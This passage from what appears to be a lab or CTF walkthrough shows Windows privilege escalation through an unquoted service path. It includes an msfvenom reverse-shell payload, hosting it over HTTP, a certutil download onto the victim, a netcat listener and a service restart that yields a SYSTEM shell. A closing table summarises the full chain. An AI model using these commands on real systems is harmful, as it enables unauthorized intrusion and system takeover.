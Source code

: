 If any of those exist, it will run them **with SYSTEM privileges**.

---

## Exploitation via Unquoted Service Path

### Creating Malicious Executable:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.88.128 LPORT=7777 -f exe > Wise.exe
```

1. Hosted the payload:

```bash
python3 -m http.server 80
```

2. On the victim machine:

```cmd
cd "C:\Program Files (x86)\Wise"
certutil.exe -urlcache -f http://192.168.88.128/Wise.exe Wise.exe
```

3. Set up a netcat listener:

```bash
nc -nvlp 7777
```

### Triggering the Exploit:

To execute the malicious binary with SYSTEM privileges, I restarted the vulnerable service:

```cmd
sc stop WiseBootAssistant
sc start WiseBootAssistant
```

### Result:

I received a reverse shell with **SYSTEM-level privileges**.

<img width="530" height="167" alt="image" src="https://github.com/user-attachments/assets/2e7f5089-89d4-424f-8296-3cd37b37ac91" />

---

## Summary

| Step                 | Details                                     |
| -------------------- | ------------------------------------------- |
| Initial Recon        | Nmap scan revealed Jenkins on port 8080     |
| Initial Foothold     | Brute-forced credentials via BurpSuite      |
| RCE                  | Groovy script execution via Jenkins console |
| Enumeration          | winPEAS revealed unquoted service path      |
| Privilege Escalation | DLL hijack using malicious executable       |
| Final Access         | SYSTEM shell via service restart            |

---